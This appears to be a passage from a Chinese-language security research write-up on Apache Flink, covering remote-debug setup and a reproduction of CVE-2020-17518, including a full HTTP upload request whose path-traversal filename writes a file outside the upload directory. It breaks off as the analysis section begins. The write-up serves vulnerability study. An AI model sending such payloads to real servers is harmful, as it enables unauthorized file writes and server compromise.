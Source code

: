 ```
# cd ../bin
# ./start-cluster.sh  
```

查看调试端口是否已经开放

```
└─$ netstat -anlp|grep 5555
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:5555            0.0.0.0:*               LISTEN      1716/java   
```

 
 
**远程调试：**

通过更改本地IDEA的Debug参数来对flink服务器进行远程调试
 
必须确保服务器本地的JDK版本与Debug参数配置所选的JDK版本一致，否则会导致连接失败
   
连接成功后，开启远程调试

**CVE-2020-17518（1.5.1 <= Apache Flink  <= 1.11.2）**

Flink 在 1.5.1 版本中引入了一个 REST handler，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过一个恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置。

## 漏洞复现：

```http
POST /jars/upload HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13247690941547071692111317477
Content-Length: 244
Connection: close


-----------------------------13247690941547071692111317477
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/test"
Content-Type: text/plain


test
-----------------------------13247690941547071692111317477-
```

## 漏洞分析：

通过apache官方邮件找到commit地址

